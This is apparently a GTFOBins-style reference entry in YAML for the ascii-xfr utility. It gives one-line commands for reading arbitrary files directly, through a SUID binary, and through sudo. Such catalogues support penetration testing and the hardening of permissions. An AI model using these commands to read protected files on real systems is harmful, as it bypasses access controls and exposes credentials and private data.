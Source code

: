   file-read:
    - code: |
        LFILE=file_to_read
        ascii-xfr -ns "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./ascii-xfr -ns "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ascii-xfr -ns "$LFILE"
---
